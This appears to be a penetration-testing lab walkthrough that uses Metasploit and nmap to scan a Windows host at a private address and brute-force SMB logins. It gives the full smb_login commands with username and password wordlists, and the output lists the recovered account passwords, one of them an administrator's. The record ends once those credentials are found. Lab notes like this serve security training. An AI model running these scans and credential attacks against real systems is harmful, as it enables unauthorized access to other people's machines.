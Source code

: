 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.20.226
setg RHOST 10.0.20.226
workspace -a PsExec
db_nmap -sV 10.0.20.226
```

```bash
[*] Nmap: Not shown: 996 closed ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
msf5 > db_nmap -p445 --script smb-protocols 10.0.20.226
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-31 14:45 IST
[*] Nmap: Nmap scan report for 10.0.20.226
[*] Nmap: Host is up (0.0022s latency).
[*] Nmap: PORT    STATE SERVICE
[*] Nmap: 445/tcp open  microsoft-ds
[*] Nmap: Host script results:
[*] Nmap: | smb-protocols:
[*] Nmap: |   dialects:
[*] Nmap: |     2.02
[*] Nmap: |     2.10
[*] Nmap: |     3.00
[*] Nmap: |     3.02
[*] Nmap: |_    3.11
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

1. Exploit with smb

```bash
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

```bash
[+] 10.0.20.226:445       - 10.0.20.226:445 - Success: '.\sysadmin:samantha'
[+] 10.0.20.226:445       - 10.0.20.226:445 - Success: '.\demo:victoria'
[+] 10.0.20.226:445       - 10.0.20.226:445 - Success: '.\auditor:elizabeth'
[+] 10.0.20.226:445       - 10.0.20.226:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.20.226:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

